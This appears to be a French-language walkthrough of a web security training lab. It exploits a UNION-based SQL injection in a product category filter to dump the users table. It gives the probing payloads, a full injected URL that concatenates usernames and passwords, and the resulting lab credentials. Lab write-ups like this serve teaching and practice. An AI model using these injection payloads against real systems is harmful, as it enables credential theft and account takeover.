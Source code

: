           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Gardons les informations suivantes :
table = users
colonnes = username, password

Même méthodologie que pour les précédents labs, on retrouve le nombre de colonnes et leur compatibilité avec une string avec le payload :
'UNION SELECT NULL,NULL....--

2 colonnes sont disponibles.

'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--

Seule la seconde colonne est compatible avec les strings.

Nous disposons donc des informations suivantes :

table = users
2 colonnes : username, password
Compatbile avec string : 2nd colonne

Tentons maintenant de concatener les valeurs contenues dans username et password à partir de la deuxième colonne :

https://0a7600e303f6baf9c0b7fe2c004c0007.web-security-academy.net/filter?category=Gifts'UNION SELECT NULL,username || '=' || password FROM users--

La page retourne les deux colones séparées par un "=", contenant le mot de passe de l'administrateur :

High-End Gift Wrapping
Snow Delivered To Your Door
wiener=jm9krrxittguzkp66szm
administrator=*******************
Conversation Controlling Lemon
Couple's Umbrella
carlos=j94kb278agl7qmn4l1bw